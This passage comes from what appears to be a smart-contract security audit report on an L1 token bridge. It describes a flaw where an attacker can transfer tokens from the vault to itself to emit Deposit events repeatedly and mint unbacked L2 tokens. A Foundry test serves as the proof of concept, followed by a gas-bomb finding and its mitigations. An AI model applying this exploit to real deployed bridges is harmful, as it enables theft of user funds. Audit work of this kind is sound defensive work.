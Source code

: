 Because the vault grants infinite approval to the bridge already (as can be seen in the contract's constructor), it's possible for an attacker to call the `depositTokensToL2` function and transfer tokens from the vault to the vault itself. This would allow the attacker to trigger the `Deposit` event any number of times, presumably causing the minting of unbacked tokens in L2.

Additionally, they could mint all the tokens to themselves. 

As a PoC, include the following test in the `L1TokenBridge.t.sol` file:

```javascript
function testCanTransferFromVaultToVault() public {
    vm.startPrank(attacker);

    // assume the vault already holds some tokens
    uint256 vaultBalance = 500 ether;
    deal(address(token), address(vault), vaultBalance);

    // Can trigger the `Deposit` event self-transferring tokens in the vault
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    // Any number of times
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(vault), address(vault), vaultBalance);
    tokenBridge.depositTokensToL2(address(vault), address(vault), vaultBalance);

    vm.stopPrank();
}
```

As suggested in H-1, consider modifying the `depositTokensToL2` function so that the caller cannot specify a `from` address.


### [M-1] `sendToL1` is unbanded on the size of message parameter which may cause protocol to spend so much gas.

**Description:** 

In the `L1BossBridge::sendToL1` the function gets message to decode it and recive the data and send the transaction. A malicious user can pass a massive data to message and cause the protocol to spend lost of gas to send transaction and causes the Gas Bomb attacker. The purpose is just to break the protocol.


**Recommended Mitigation:** 

Use this solutions to prevent Gas Bomd attack:

1. Gas Limits on External Calls:

    Apply a gas limit to the external call to prevent excessive gas usage by the target contract
    ```javascript
    (bool success, ) = target.call{value: value, gas: 200000}(data);

    ```
